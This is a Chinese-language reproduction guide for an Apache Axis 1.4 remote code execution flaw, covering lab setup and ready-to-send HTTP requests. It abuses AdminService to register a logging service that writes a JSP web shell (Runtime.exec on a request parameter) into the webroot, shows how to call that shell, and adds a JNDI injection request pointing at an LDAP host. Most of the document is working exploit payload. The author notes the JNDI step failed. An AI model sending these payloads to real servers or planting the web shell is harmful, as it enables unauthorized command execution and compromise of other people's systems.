



# Apache Axis 远程代码执行漏洞

## 漏洞描述

Apache Axis 服务被用于部署各种接口服务。其中，AdminService 接口允许管理员远程访问管理服务，相关配置在 `/axis/WEB-INF/server-config.wsdd`(部署应用后产生)，其中`enableRemoteAdmin`默认为`false`，只允许本地管理。

若将`enableRemoteAdmin`设置为`true`，则可以执行 JNDI 注入，执行任意代码或反弹 Shell。 

## 环境搭建

下载 [axis bin](http://mirror.navercorp.com/apache/axis/axis/java/1.4/axis-bin-1_4.tar.gz) 解压，将 webapps 下 axis 文件夹复制到 tomcat 环境下 webapps 目录下。

修改环境变量：

```
vim ~/.profile
```

```
export AXIS_HOME=/usr/tomcat/apache-tomcat-8.5.90/webapps/axis
export AXIS_LIB=$AXIS_HOME/WEB-INF/lib
export AXISCLASSPATH=$AXIS_LIB/axis.jar:$AXIS_LIB/commons-discovery-0.2.jar:$AXIS_LIB/commons-logging-1.0.4.jar:$AXIS_LIB/jaxrpc.jar:$AXIS_LIB/saaj.jar:$AXIS_LIB/log4j-1.2.8.jar:$AXIS_LIB/xml-apis.jar:$AXIS_LIB/xercesImpl.jar:$AXIS_LIB/wsdl4j-1.5.1.jar
```

刷新环境变量：

```
source ~/.profile
```

开启RemoteAdmin服务：

```
vim webapps/axis/WEB-INF/deploy.wsdd
```

```
<deployment xmlns="http://xml.apache.org/axis/wsdd/"
    xmlns:java="http://xml.apache.org/axis/wsdd/providers/java">
  <service name="AdminService" provider="java:MSG">
    <parameter name="className" value="org.apache.axis.utils.Admin"/>
    <parameter name="allowedMethods" value="*"/>
    <parameter name="enableRemoteAdmin" value="true"/>
  </service>
</deployment>
```

刷新配置：

```
java -cp $AXISCLASSPATH org.apache.axis.client.AdminClient deploy.wsdd
```

## 漏洞复现

### RandomService 报错getshell

注册服务，指定日志目录为shell路径：

```
<parameter name="LogHandler.fileName" value="../webapps/axis/shell.jsp" />  
```

```
POST /axis/services/AdminService HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Content-Type: text/xml;charset=UTF-8
SOAPAction: ""
Content-Length: 1059
User-Agent: Apache-HttpClient/4.1.1 (java 1.5)
Connection: close

<?xml version="1.0" encoding="utf-8"?>
<soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xmlns:api="http://127.0.0.1/Integrics/Enswitch/API"
        xmlns:xsd="http://www.w3.org/2001/XMLSchema"
        xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
  <soapenv:Body>
    <ns1:deployment
  xmlns="http://xml.apache.org/axis/wsdd/"
  xmlns:java="http://xml.apache.org/axis/wsdd/providers/java"
  xmlns:ns1="http://xml.apache.org/axis/wsdd/">
  <ns1:service name="RandomService" provider="java:RPC">
    <requestFlow>
      <handler type="RandomLog"/>
    </requestFlow>
    <ns1:parameter name="className" value="java.util.Random"/>
    <ns1:parameter name="allowedMethods" value="*"/>
  </ns1:service>
  <handler name="RandomLog" type="java:org.apache.axis.handlers.LogHandler" >
    <parameter name="LogHandler.fileName" value="../webapps/axis/shell.jsp" />   
    <parameter name="LogHandler.writeToConsole" value="false" /> 
  </handler>
</ns1:deployment>
  </soapenv:Body>
</soapenv:Envelope>
```


请求RandomService，利用报错将错误日志写入到shell文件：

```
POST /axis/services/RandomService HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Content-Type: text/xml;charset=UTF-8
SOAPAction: ""
Content-Length: 874
User-Agent: Apache-HttpClient/4.1.1 (java 1.5)
Connection: close

<?xml version="1.0" encoding="utf-8"?>
        <soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xmlns:api="http://127.0.0.1/Integrics/Enswitch/API"
        xmlns:xsd="http://www.w3.org/2001/XMLSchema"
        xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
        <soapenv:Body>
        <api:main
        soapenv:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
            <api:in0><![CDATA[
<%@page import="java.util.*,java.io.*"%><% if (request.getParameter("c") != null) { Process p = Runtime.getRuntime().exec(request.getParameter("c")); DataInputStream dis = new DataInputStream(p.getInputStream()); String disr = dis.readLine(); while ( disr != null ) { out.println(disr); disr = dis.readLine(); }; p.destroy(); }%>
]]>
            </api:in0>
        </api:main>
  </soapenv:Body>
</soapenv:Envelope>
```


shell 地址：

```
view-source:http://your-ip:8080/axis/shell.jsp?c=pwd
```



这里的 shell 写入路径 LogHandler.fileName 为 `../webapps/axis/shell.jsp`，实际遇到的目标启动路径可能不同，需要根据实际对写入的路径做相应的变动。

卸载服务：

```
POST /axis/services/AdminService HTTP/1.1
Host: your-ip:8080
Connection: close
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:64.0) Gecko/20100101 Firefox/64.0
Accept-Language: en-US,en;q=0.5
SOAPAction: something
Upgrade-Insecure-Requests: 1
Content-Type: application/xml
Accept-Encoding: gzip, deflate
Content-Length: 458

<?xml version="1.0" encoding="utf-8"?>
  <soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xmlns:api="http://127.0.0.1/Integrics/Enswitch/API"
        xmlns:xsd="http://www.w3.org/2001/XMLSchema"
        xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
  <soapenv:Body>
    <undeployment xmlns="http://xml.apache.org/axis/wsdd/">
      <service name="randomService"/>
      <handler name="RandomLog"/>
      <service name="jndiService"/>
    </undeployment>
  </soapenv:Body>
</soapenv:Envelope>
```

### AdminService JNDI注入

注册服务：

```
POST /axis/services/AdminService HTTP/1.1
Host: your-ip:8080
Connection: close
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:64.0) Gecko/20100101 Firefox/64.0
Accept-Language: en-US,en;q=0.5
SOAPAction: something
Upgrade-Insecure-Requests: 1
Content-Type: application/xml
Accept-Encoding: gzip, deflate
Content-Length: 746

<?xml version="1.0" encoding="utf-8"?>
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:api="http://127.0.0.1/Integrics/Enswitch/API" xmlns:xsd="http://www.w3.org/2001/XMLSchema">
  <soapenv:Body>
    <ns1:deployment xmlns:ns1="http://xml.apache.org/axis/wsdd/" xmlns="http://xml.apache.org/axis/wsdd/" xmlns:java="http://xml.apache.org/axis/wsdd/providers/java">
      <ns1:service name="testService" provider="java:RPC">
        <ns1:parameter name="className" value="org.apache.axis.client.ServiceFactory"/>
        <ns1:parameter name="allowedMethods" value="*"/>
      </ns1:service>
    </ns1:deployment>
  </soapenv:Body>
</soapenv:Envelope>
```



访问创建的testService进行jndi注入：

```
POST /axis/services/testService HTTP/1.1
Host: your-ip:8080
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:64.0) Gecko/20100101 Firefox/64.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://your-ip:8080/axis/servlet/AxisServlet
Accept-Encoding: gzip, deflate
Accept-Language: zh,zh-TW;q=0.9,zh-CN;q=0.8
Connection: close
SOAPAction:
Content-Type: text/xml;charset=UTF-8
Content-Length: 791

<?xml version="1.0" encoding="utf-8"?>
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:buil="http://build.antlr">
  <soapenv:Header/>
  <soapenv:Body>
    <buil:getService soapenv:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
      <environment xmlns:apachesoap="http://xml.apache.org/xml-soap" xmlns:soapenc="http://schemas.xmlsoap.org/soap/encoding/" xsi:type="apachesoap:Map">
        <item>
          <key xsi:type="soapenc:string">jndiName</key>
          <value xsi:type="soapenc:string">ldap://your-ip:1389/dlmaty</value>
        </item>
      </environment>
    </buil:getService>
  </soapenv:Body>
</soapenv:Envelope>
```

这里 JNDI 注入**不成功**，报错 `java.lang.ClassCastException: javax.naming.Reference cannot be cast to org.apache.axis.client.Service`。

可能是复现的环境采用需要1.8.0_102之前的环境。（待测）



卸载服务：

```
POST /axis/services/AdminService HTTP/1.1
Host: your-ip:8080
Connection: close
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:64.0) Gecko/20100101 Firefox/64.0
Accept-Language: en-US,en;q=0.5
SOAPAction: something
Upgrade-Insecure-Requests: 1
Content-Type: application/xml
Accept-Encoding: gzip, deflate
Content-Length: 458

<?xml version="1.0" encoding="utf-8"?>
<soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xmlns:api="http://127.0.0.1/Integrics/Enswitch/API"
        xmlns:xsd="http://www.w3.org/2001/XMLSchema"
        xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
  <soapenv:Body>
<undeployment xmlns="http://xml.apache.org/axis/wsdd/">
 <service name="testService"/>
</undeployment>
  </soapenv:Body>
</soapenv:Envelope>
```

